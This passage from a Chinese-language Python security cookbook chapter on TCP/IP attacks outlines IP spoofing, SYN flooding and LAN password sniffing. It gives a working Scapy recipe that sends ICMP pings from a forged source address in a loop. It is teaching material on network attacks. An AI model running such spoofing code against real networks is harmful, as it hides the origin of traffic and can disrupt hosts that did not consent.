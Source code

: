 # 第十一章：TCP/IP 攻击

在本章中，我们将涵盖以下内容：

+   IP 欺骗

+   SYN 洪泛

+   使用 Python 在局域网中进行密码嗅探

# 介绍

传输层是提供数据传递、流量控制和错误恢复服务的层。两个主要的传输层协议是 TCP 和 UDP。在本章中，我们将讨论传输层中一些常见的攻击。

# IP 欺骗

使用 Scapy，我们可以简单地制作数据包并发送它们。因此，如果我们伪造源地址并发送它，网络将接受并将响应返回到伪造的地址。现在，我们可以创建一个脚本来使用伪造的 IP 对系统进行 ping。

# 操作步骤...

以下是创建发送伪造 IP 的 ping 请求脚本的步骤：

1.  创建一个`ip-spoof-ping.py`文件并在编辑器中打开它。

1.  然后，我们必须导入所需的模块：

```py
from scapy.all import *  
```

1.  现在为脚本声明变量：

```py
iface = "en0"
fake_ip = '192.168.1.3'
destination_ip = '192.168.1.5'  
```

1.  创建一个函数来发送 ICMP 数据包：

```py
def ping(source, destination, iface):
    pkt = IP(src=source,dst=destination)/ICMP()
    srloop(IP(src=source,dst=destination)/ICMP(), iface=iface)  
```

这将创建以下数据包并开始发送/接收循环：

![](img/00062.jpeg)

1.  开始发送伪造的数据包：

```py
try:
    print ("Starting Ping")
    ping(fake_ip,destination_ip,iface)    
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

